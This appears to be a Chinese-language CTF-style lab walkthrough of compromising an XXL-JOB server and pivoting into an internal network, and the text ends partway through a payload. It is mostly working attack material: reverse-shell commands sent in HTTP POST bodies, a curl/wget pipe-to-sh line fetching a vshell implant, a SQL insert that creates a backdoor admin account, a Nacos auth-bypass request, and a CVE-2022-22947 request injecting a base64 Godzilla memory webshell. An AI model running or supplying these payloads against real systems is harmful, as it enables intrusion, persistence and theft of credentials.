**网络拓扑图**



外网机

> 凭据：`xxl-job/root123`
>
> IP1: 192.168.28.30
>
> IP2: 192.168.100.20



## 外网打点

### dddd工具扫描

```
D:\Tools\Toolsbox\gui_scan\dddd>dddd64.exe -t 192.168.28.30

     _       _       _       _
  __| |   __| |   __| |   __| |
 / _` |  / _ `|  / _` |  / _` |
 \__,_|  \__,_|  \__,_|  \__,_|
_|"""""|_|"""""|_|"""""|_|"""""|
"`-0-0-'"`-0-0-'"`-0-0-`"`-0-0-'
dddd.version: 2.0.1

[INF] YAML指纹数据: 8383 条
[INF] 漏洞检测支持指纹: 956 条
[Alive] 192.168.28.30 [ICMP]
[PortScan] 192.168.28.30:8081
[PortScan] 192.168.28.30:8080
[PortScan] 192.168.28.30:22
[PortScan] 192.168.28.30:9999
[Nmap] ssh://192.168.28.30:22
[Nmap] http://192.168.28.30:9999
[Nmap] http://192.168.28.30:8080
[Nmap] http://192.168.28.30:8081
[INF] 获取Web响应中
[Web] [404] http://192.168.28.30:8080 [HTTP Status 404 – Not Found]
[Web] [404] http://192.168.28.30:8081
[Web] [200] http://192.168.28.30:9999
[INF] 域名绑定资产发现
[INF] 开始主动指纹探测
[Active-Finger] http://192.168.28.30:8081/api/error/ [vmware-SpringBoot-Framework]
[Active-Finger] http://192.168.28.30:8081/error [vmware-SpringBoot-Framework]
[Active-Finger] http://192.168.28.30:8081/gateway/error/ [vmware-SpringBoot-Framework]
[INF] 指纹识别中
[Finger] ssh://192.168.28.30:22 [Ubuntu-system,OpenSSH,SSH]
[Finger] http://192.168.28.30:8081/error [500] [vmware-SpringBoot-Framework]
[Finger] http://192.168.28.30:8081/gateway/error/ [404] [vmware-SpringBoot-Framework]
[Finger] http://192.168.28.30:8081/ [404] [vmware-SpringBoot-Framework]
[Finger] http://192.168.28.30:8081/api/error/ [404] [vmware-SpringBoot-Framework]
[Finger] http://192.168.28.30:9999/ [200] [XXL-JOB-执行器]
```

发现就开了4个端口，22，8080，8081，9999

识别出9999端口是`XXL-JOB`

```shell
curl http://192.168.28.30:9999
```



通过搜索引擎知道是xxl-job-execute未授权漏洞

### xxl-job-execute未授权rce 

构造反弹shell语句

```shell
/bin/sh -i >& /dev/tcp/192.168.28.4/2233 0>&1
```

```http
POST /run HTTP/1.1
Host: 192.168.28.30:9999
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 365

{
  "jobId": 1,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 0,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_SHELL",
  "glueSource": "/bin/sh -i >& /dev/tcp/192.168.28.4/2233 0>&1",
  "glueUpdatetime": 1586699003758,
  "broadcastIndex": 0,
  "broadcastTotal": 0
}
```

kali进行监听

```shell
nc -lvnp 2233
```



上线vshell



```sh
(curl -fsSL -m180 http://192.168.28.4:50001/slt||wget -T180 -q http://192.168.28.4:50001/slt)|sh
```

### xxl-job-admin后台rce

查看`xxl-job`服务的目录，存在`xxl-job-admin`和`xxl-job-excutor`



查看正在运行的服务

```sh
systemctl list-unit-files --type=service|grep enabled
```



对应我们扫描到的8080和9999端口

将`jar`包下载下来，用jadx进行反编译，或者解压出来



查看`BOOT-INF/classes/application.properties`配置文件，找到数据库账户和密码

凭据：`root:root_pwd`



登录mysql

```shell
mysql -uroot -proot_pwd
```

```
use xxl_job;
select * from xxl_job_user;
```

插入test用户，密码为123456

```
insert into xxl_job_user (id,username,password,role,permission) values (2,"test","e10adc3949ba59abbe56e057f20f883e",1,NULL);
```



job-admin后台的默认地址为：/xxl-job-admin

后台URL：http://192.168.28.30:8080/xxl-job-admin

创建攻防任务，选择GLUE(Shell)



点击`GLUE IDE`编辑任务内容



输入反弹shell命令，并保存

```
/bin/bash -i >& /dev/tcp/192.168.28.4/2234 0>&1
```



点击执行一次，机器地址填写外网机ip的9999端口

http://192.168.28.30:9999/



攻击机监听`2234`端口

成功执行，拿到反弹shell





拿到root用户的shell

## 内网渗透

查看外网机的IP配置，存在两个IP地址，内网地址：192.168.100.20



上传`fscan`进行扫描，扫描`192.168.100.0/24`（C段）

```shell
root@waiwangji:/tmp# ./fscan -h 192.168.100.0/24 -hn 192.168.100.1

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 2.0.0
[*] 扫描类型: all, 目标端口: 21,22,80,81,135,139,443,445,1433,1521,3306,5432,6379,7001,8000,8080,8089,9000,9200,11211,27017,80,81,82,83,84,85,86,87,88,89,90,91,92,98,99,443,800,801,808,880,888,889,1000,1010,1080,1081,1082,1099,1118,1888,2008,2020,2100,2375,2379,3000,3008,3128,3505,5555,6080,6648,6868,7000,7001,7002,7003,7004,7005,7007,7008,7070,7071,7074,7078,7080,7088,7200,7680,7687,7688,7777,7890,8000,8001,8002,8003,8004,8006,8008,8009,8010,8011,8012,8016,8018,8020,8028,8030,8038,8042,8044,8046,8048,8053,8060,8069,8070,8080,8081,8082,8083,8084,8085,8086,8087,8088,8089,8090,8091,8092,8093,8094,8095,8096,8097,8098,8099,8100,8101,8108,8118,8161,8172,8180,8181,8200,8222,8244,8258,8280,8288,8300,8360,8443,8448,8484,8800,8834,8838,8848,8858,8868,8879,8880,8881,8888,8899,8983,8989,9000,9001,9002,9008,9010,9043,9060,9080,9081,9082,9083,9084,9085,9086,9087,9088,9089,9090,9091,9092,9093,9094,9095,9096,9097,9098,9099,9100,9200,9443,9448,9800,9981,9986,9988,9998,9999,10000,10001,10002,10004,10008,10010,10250,12018,12443,14000,16080,18000,18001,18002,18004,18008,18080,18082,18088,18090,18098,19001,20000,20720,21000,21501,21502,28018,20880
[*] 开始信息扫描...
[*] CIDR范围: 192.168.100.0-192.168.100.255
[*] 已生成IP范围: 192.168.100.0 - 192.168.100.255
[*] 已解析CIDR 192.168.100.0/24 -> IP范围 192.168.100.0-192.168.100.255
[*] 已排除指定主机: 1 个
[*] 最终有效主机数量: 255
[+] 目标 192.168.100.20  存活 (ICMP)
[+] 目标 192.168.100.50  存活 (ICMP)
[+] ICMP存活主机数量: 2
[*] 共解析 218 个有效端口
[+] 端口开放 192.168.100.50:8848
[+] 端口开放 192.168.100.20:9999
[+] 端口开放 192.168.100.50:8800
[+] 端口开放 192.168.100.50:22
[+] 端口开放 192.168.100.20:22
[+] 端口开放 192.168.100.20:8081
[+] 端口开放 192.168.100.20:8080
[+] 存活端口数量: 7
[*] 开始漏洞扫描...
[*] 网站标题 http://192.168.100.20:8080 状态码:404 长度:431    标题:HTTP Status 404 – Not Found
[*] 网站标题 http://192.168.100.50:8848 状态码:404 长度:431    标题:HTTP Status 404 – Not Found
[*] 网站标题 http://192.168.100.50:8800 状态码:503 长度:292    标题:无标题
[*] 网站标题 http://192.168.100.20:9999 状态码:200 长度:61     标题:无标题
[*] 网站标题 http://192.168.100.20:8081 状态码:404 长度:306    标题:无标题
[+] [发现漏洞] 目标: http://192.168.100.50:8848
  漏洞类型: poc-yaml-alibaba-nacos
  漏洞名称: 
  详细信息: %!s(<nil>)
[+] [发现漏洞] 目标: http://192.168.100.50:8848
  漏洞类型: poc-yaml-alibaba-nacos-v1-auth-bypass
  漏洞名称: 
  详细信息: %!s(<nil>)
[+] [发现漏洞] 目标: http://192.168.100.50:8800
  漏洞类型: Spring-Cloud-CVE-2022-22947
  漏洞名称: 
  详细信息: %!s(<nil>)
[+] [发现漏洞] 目标: http://192.168.100.50:8800
  漏洞类型: poc-yaml-spring-actuator-heapdump-file
  漏洞名称: 
  详细信息: %!s(<nil>)
[+] [发现漏洞] 目标: http://192.168.100.50:8800
  漏洞类型: poc-yaml-springboot-env-unauth
  漏洞名称: spring2
  详细信息: %!s(<nil>)
[!] 扫描错误 192.168.100.20:22 - 扫描总时间超时: context deadline exceeded
[!] 扫描错误 192.168.100.50:22 - 扫描总时间超时: context deadline exceeded
[+] 扫描已完成: 7/7
[*] 扫描结束,耗时: 9.140521085s
```

### 代理搭建

使用vshell搭建代理，端口：8899



在kali上，将下面内容追加到`/etc/proxychains4.conf`文件中

```
socks5 192.168.28.4 8900
```

测试隧道

```
proxychains4 curl -v http://192.168.100.50:8848
```



windows主机下使用`Proxifier`

首先添加代理服务器



添加代理规则，指定目标主机`192.168.100.*`



### 8848 nacos未授权

根据fscan的扫描结果，8848端口是nacos服务

```http
POST /nacos/v1/auth/users HTTP/1.1
Content-Type: application/x-www-form-urlencoded; charset=utf-8
User-Agent: Requests 5.0.3, Java 11.0.2
Accept-Encoding: gzip, deflate, br
Cache-Control: no-cache
Pragma: no-cache
Host: 192.168.100.50:8848
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Content-Length: 27
Connection: keep-alive

username=test&password=test
```



`test:test`添加成功

访问：http://192.168.100.50:8848/nacos，进行登录



存在一些配置列表



逐一查看

`admin-api`中存在redis服务的密码



```
redis:
    #数据库索引
    database: 0
    host: 127.0.0.1
    port: 6379
    password: nbsg@123456
    #连接超时时间
    timeout: 50000
```

这里还有一些关于云一类的ak,sk，这个靶场并未涉及



### 8800 CVE-2022-22947

Spring Cloud Gateway RCE漏洞

8800 端口经典的springboot报错，扫描存在actuator未授权

首先创建路由，201表示创建成功



然后刷新路由



在访问这个路由，发现命令成功执行



然后就写哥斯拉内存马

```http
POST /actuator/gateway/routes/bolean1 HTTP/1.1
Host: 192.168.100.50:8800
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 10964

{
      "id": "bolean1",
      "filters": [{
        "name": "AddResponseHeader",
        "args": {
            "name": "Result",
            "value": "#{T(org.springframework.cglib.core.ReflectUtils).defineClass('ms.GMemShell',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAADQBeAoADQC2BwC3CgACALYJABIAuAoAAgC5CQASALoKAAIAuwoAEgC8CQASAL0KAA0AvggAcgcAvwcAwAcAwQcAwgoADADDCgAOAMQHAMUIAJ8HAMYHAMcKAA8AyAsAyQDKCgASALYKAA4AywgAzAcAzQoAGwDOCADPBwDQBwDRCgDSANMKANIA1AoAHgDVBwDWCACBBwCECQDXANgKANcA2QgA2goA2wDcBwDdCgAVAN4KACoA3woA2wDgCgDbAOEIAOIKAOMA5AoAFQDlCgDjAOYHAOcKAOMA6AoAMwDpCgAzAOoKABUA6wgA7AoADADtCADuCgAMAO8IAPAIAPEKAAwA8ggA8wgA9AgA9QgA9ggA9wsAFAD4EgAAAP4KAP8BAAcBAQkBAgEDCgBHAQQKABsBBQsBBgEHCgASAQgKABIBCQkAEgEKCAELCwEMAQ0KABIBDgsBDAEPCAEQBwERCgBUALYKAA0BEgoAFQETCgANALsKAFQBFAoAEgEVCgAVARYKAP8BFwcBGAoAXQC2CABlCAEZAQAFc3RvcmUBAA9MamF2YS91dGlsL01hcDsBAAlTaWduYXR1cmUBADVMamF2YS91dGlsL01hcDxMamF2YS9sYW5nL1N0cmluZztMamF2YS9sYW5nL09iamVjdDs+OwEABHBhc3MBABJMamF2YS9sYW5nL1N0cmluZzsBAANtZDUBAAJ4YwEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAOTG1zL0dNZW1TaGVsbDsBAAhkb0luamVjdAEAOChMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmc7AQAVcmVnaXN0ZXJIYW5kbGVyTWV0aG9kAQAaTGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZDsBAA5leGVjdXRlQ29tbWFuZAEAEnJlcXVlc3RNYXBwaW5nSW5mbwEAQ0xvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9yZWFjdGl2ZS9yZXN1bHQvbWV0aG9kL1JlcXVlc3RNYXBwaW5nSW5mbzsBAANtc2cBAAFlAQAVTGphdmEvbGFuZy9FeGNlcHRpb247AQADb2JqAQASTGphdmEvbGFuZy9PYmplY3Q7AQAEcGF0aAEADVN0YWNrTWFwVGFibGUHAM0HAMcBABBNZXRob2RQYXJhbWV0ZXJzAQALZGVmaW5lQ2xhc3MBABUoW0IpTGphdmEvbGFuZy9DbGFzczsBAApjbGFzc2J5dGVzAQACW0IBAA51cmxDbGFzc0xvYWRlcgEAGUxqYXZhL25ldC9VUkxDbGFzc0xvYWRlcjsBAAZtZXRob2QBAApFeGNlcHRpb25zAQABeAEAByhbQlopW0IBAAFjAQAVTGphdmF4L2NyeXB0by9DaXBoZXI7AQABcwEAAW0BAAFaBwDFBwEaAQAmKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1N0cmluZzsBAB1MamF2YS9zZWN1cml0eS9NZXNzYWdlRGlnZXN0OwEAA3JldAEADGJhc2U2NEVuY29kZQEAFihbQilMamF2YS9sYW5nL1N0cmluZzsBAAdFbmNvZGVyAQAGYmFzZTY0AQARTGphdmEvbGFuZy9DbGFzczsBAAJicwEABXZhbHVlAQAMYmFzZTY0RGVjb2RlAQAWKExqYXZhL2xhbmcvU3RyaW5nOylbQgEAB2RlY29kZXIBAANjbWQBAF0oTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZlci9TZXJ2ZXJXZWJFeGNoYW5nZTspTG9yZy9zcHJpbmdmcmFtZXdvcmsvaHR0cC9SZXNwb25zZUVudGl0eTsBAAxidWZmZXJTdHJlYW0BAAJleAEABXBkYXRhAQAyTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZlci9TZXJ2ZXJXZWJFeGNoYW5nZTsBABlSdW50aW1lVmlzaWJsZUFubm90YXRpb25zAQA1TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL2JpbmQvYW5ub3RhdGlvbi9Qb3N0TWFwcGluZzsBAAQvY21kAQANbGFtYmRhJGNtZCQxMQEARyhMb3JnL3NwcmluZ2ZyYW1ld29yay91dGlsL011bHRpVmFsdWVNYXA7KUxyZWFjdG9yL2NvcmUvcHVibGlzaGVyL01vbm87AQAGYXJyT3V0AQAfTGphdmEvaW8vQnl0ZUFycmF5T3V0cHV0U3RyZWFtOwEAAWYBAAJpZAEABGRhdGEBAChMb3JnL3NwcmluZ2ZyYW1ld29yay91dGlsL011bHRpVmFsdWVNYXA7AQAGcmVzdWx0AQAZTGphdmEvbGFuZy9TdHJpbmdCdWlsZGVyOwcAtwEACDxjbGluaXQ+AQAKU291cmNlRmlsZQEADkdNZW1TaGVsbC5qYXZhDABpAGoBABdqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcgwAZQBmDAEbARwMAGgAZgwBHQEeDABnAJIMAGcAZgwBHwEgAQAPamF2YS9sYW5nL0NsYXNzAQAQamF2YS9sYW5nL09iamVjdAEAGGphdmEvbGFuZy9yZWZsZWN0L01ldGhvZAEAQW9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3JlYWN0aXZlL3Jlc3VsdC9tZXRob2QvUmVxdWVzdE1hcHBpbmdJbmZvDAEhASIMASMBJAEADG1zL0dNZW1TaGVsbAEAMG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3NlcnZlci9TZXJ2ZXJXZWJFeGNoYW5nZQEAEGphdmEvbGFuZy9TdHJpbmcMASUBKAcBKQwBKgErDAEsAS0BAAJvawEAE2phdmEvbGFuZy9FeGNlcHRpb24MAS4AagEABWVycm9yAQAXamF2YS9uZXQvVVJMQ2xhc3NMb2FkZXIBAAxqYXZhL25ldC9VUkwHAS8MATABMQwBMgEzDABpATQBABVqYXZhL2xhbmcvQ2xhc3NMb2FkZXIHATUMATYAmQwBNwE4AQADQUVTBwEaDAE5AToBAB9qYXZheC9jcnlwdG8vc3BlYy9TZWNyZXRLZXlTcGVjDAE7ATwMAGkBPQwBPgE/DAFAAUEBAANNRDUHAUIMATkBQwwBRAFFDAFGAUcBABRqYXZhL21hdGgvQmlnSW50ZWdlcgwBSAE8DABpAUkMAR0BSgwBSwEeAQAQamF2YS51dGlsLkJhc2U2NAwBTAFNAQAKZ2V0RW5jb2RlcgwBTgEiAQAOZW5jb2RlVG9TdHJpbmcBABZzdW4ubWlzYy5CQVNFNjRFbmNvZGVyDAFPAVABAAZlbmNvZGUBAApnZXREZWNvZGVyAQAGZGVjb2RlAQAWc3VuLm1pc2MuQkFTRTY0RGVjb2RlcgEADGRlY29kZUJ1ZmZlcgwBUQFSAQAQQm9vdHN0cmFwTWV0aG9kcw8GAVMQAVQPBwFVEACpDAFWAVcHAVgMAVkBWgEAJ29yZy9zcHJpbmdmcmFtZXdvcmsvaHR0cC9SZXNwb25zZUVudGl0eQcBWwwBXAFdDABpAV4MAV8BHgcBYAwBYQFUDACcAJ0MAIkAigwAYQBiAQAHcGF5bG9hZAcBYgwBYwFUDACBAIIMAWQBZQEACnBhcmFtZXRlcnMBAB1qYXZhL2lvL0J5dGVBcnJheU91dHB1dFN0cmVhbQwBZgFnDAFoAWkMAWoBPAwAlQCWDAFoAUoMAWsBbAEAEWphdmEvdXRpbC9IYXNoTWFwAQAQM2M2ZTBiOGE5YzE1MjI0YQEAE2phdmF4L2NyeXB0by9DaXBoZXIBAAZhcHBlbmQBAC0oTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvU3RyaW5nQnVpbGRlcjsBAAh0b1N0cmluZwEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQAIZ2V0Q2xhc3MBABMoKUxqYXZhL2xhbmcvQ2xhc3M7AQARZ2V0RGVjbGFyZWRNZXRob2QBAEAoTGphdmEvbGFuZy9TdHJpbmc7W0xqYXZhL2xhbmcvQ2xhc3M7KUxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQANc2V0QWNjZXNzaWJsZQEABChaKVYBAAVwYXRocwEAB0J1aWxkZXIBAAxJbm5lckNsYXNzZXMBAGAoW0xqYXZhL2xhbmcvU3RyaW5nOylMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvcmVhY3RpdmUvcmVzdWx0L21ldGhvZC9SZXF1ZXN0TWFwcGluZ0luZm8kQnVpbGRlcjsBAElvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9yZWFjdGl2ZS9yZXN1bHQvbWV0aG9kL1JlcXVlc3RNYXBwaW5nSW5mbyRCdWlsZGVyAQAFYnVpbGQBAEUoKUxvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9yZWFjdGl2ZS9yZXN1bHQvbWV0aG9kL1JlcXVlc3RNYXBwaW5nSW5mbzsBAAZpbnZva2UBADkoTGphdmEvbGFuZy9PYmplY3Q7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsBAA9wcmludFN0YWNrVHJhY2UBABBqYXZhL2xhbmcvVGhyZWFkAQANY3VycmVudFRocmVhZAEAFCgpTGphdmEvbGFuZy9UaHJlYWQ7AQAVZ2V0Q29udGV4dENsYXNzTG9hZGVyAQAZKClMamF2YS9sYW5nL0NsYXNzTG9hZGVyOwEAKShbTGphdmEvbmV0L1VSTDtMamF2YS9sYW5nL0NsYXNzTG9hZGVyOylWAQARamF2YS9sYW5nL0ludGVnZXIBAARUWVBFAQAHdmFsdWVPZgEAFihJKUxqYXZhL2xhbmcvSW50ZWdlcjsBAAtnZXRJbnN0YW5jZQEAKShMamF2YS9sYW5nL1N0cmluZzspTGphdmF4L2NyeXB0by9DaXBoZXI7AQAIZ2V0Qnl0ZXMBAAQoKVtCAQAXKFtCTGphdmEvbGFuZy9TdHJpbmc7KVYBAARpbml0AQAXKElMamF2YS9zZWN1cml0eS9LZXk7KVYBAAdkb0ZpbmFsAQAGKFtCKVtCAQAbamF2YS9zZWN1cml0eS9NZXNzYWdlRGlnZXN0AQAxKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9zZWN1cml0eS9NZXNzYWdlRGlnZXN0OwEABmxlbmd0aAEAAygpSQEABnVwZGF0ZQEAByhbQklJKVYBAAZkaWdlc3QBAAYoSVtCKVYBABUoSSlMamF2YS9sYW5nL1N0cmluZzsBAAt0b1VwcGVyQ2FzZQEAB2Zvck5hbWUBACUoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvQ2xhc3M7AQAJZ2V0TWV0aG9kAQALbmV3SW5zdGFuY2UBABQoKUxqYXZhL2xhbmcvT2JqZWN0OwEAC2dldEZvcm1EYXRhAQAfKClMcmVhY3Rvci9jb3JlL3B1Ymxpc2hlci9Nb25vOwoBbQFuAQAmKExqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsKABIBbwEABWFwcGx5AQAtKExtcy9HTWVtU2hlbGw7KUxqYXZhL3V0aWwvZnVuY3Rpb24vRnVuY3Rpb247AQAbcmVhY3Rvci9jb3JlL3B1Ymxpc2hlci9Nb25vAQAHZmxhdE1hcAEAPChMamF2YS91dGlsL2Z1bmN0aW9uL0Z1bmN0aW9uOylMcmVhY3Rvci9jb3JlL3B1Ymxpc2hlci9Nb25vOwEAI29yZy9zcHJpbmdmcmFtZXdvcmsvaHR0cC9IdHRwU3RhdHVzAQACT0sBACVMb3JnL3NwcmluZ2ZyYW1ld29yay9odHRwL0h0dHBTdGF0dXM7AQA6KExqYXZhL2xhbmcvT2JqZWN0O0xvcmcvc3ByaW5nZnJhbWV3b3JrL2h0dHAvSHR0cFN0YXR1czspVgEACmdldE1lc3NhZ2UBACZvcmcvc3ByaW5nZnJhbWV3b3JrL3V0aWwvTXVsdGlWYWx1ZU1hcAEACGdldEZpcnN0AQANamF2YS91dGlsL01hcAEAA2dldAEAA3B1dAEAOChMamF2YS9sYW5nL09iamVjdDtMamF2YS9sYW5nL09iamVjdDspTGphdmEvbGFuZy9PYmplY3Q7AQAGZXF1YWxzAQAVKExqYXZhL2xhbmcvT2JqZWN0OylaAQAJc3Vic3RyaW5nAQAWKElJKUxqYXZhL2xhbmcvU3RyaW5nOwEAC3RvQnl0ZUFycmF5AQAEanVzdAEAMShMamF2YS9sYW5nL09iamVjdDspTHJlYWN0b3IvY29yZS9wdWJsaXNoZXIvTW9ubzsHAXAMAXEBdAwAqACpAQAiamF2YS9sYW5nL2ludm9rZS9MYW1iZGFNZXRhZmFjdG9yeQEAC21ldGFmYWN0b3J5BwF2AQAGTG9va3VwAQDMKExqYXZhL2xhbmcvaW52b2tlL01ldGhvZEhhbmRsZXMkTG9va3VwO0xqYXZhL2xhbmcvU3RyaW5nO0xqYXZhL2xhbmcvaW52b2tlL01ldGhvZFR5cGU7TGphdmEvbGFuZy9pbnZva2UvTWV0aG9kVHlwZTtMamF2YS9sYW5nL2ludm9rZS9NZXRob2RIYW5kbGU7TGphdmEvbGFuZy9pbnZva2UvTWV0aG9kVHlwZTspTGphdmEvbGFuZy9pbnZva2UvQ2FsbFNpdGU7BwF3AQAlamF2YS9sYW5nL2ludm9rZS9NZXRob2RIYW5kbGVzJExvb2t1cAEAHmphdmEvbGFuZy9pbnZva2UvTWV0aG9kSGFuZGxlcwAhABIADQAAAAQACQBhAGIAAQBjAAAAAgBkAAkAZQBmAAAACQBnAGYAAAAJAGgAZgAAAAoAAQBpAGoAAQBrAAAALwABAAEAAAAFKrcAAbEAAAACAGwAAAAGAAEAAAAWAG0AAAAMAAEAAAAFAG4AbwAAAAkAcABxAAIAawAAAUgABwAG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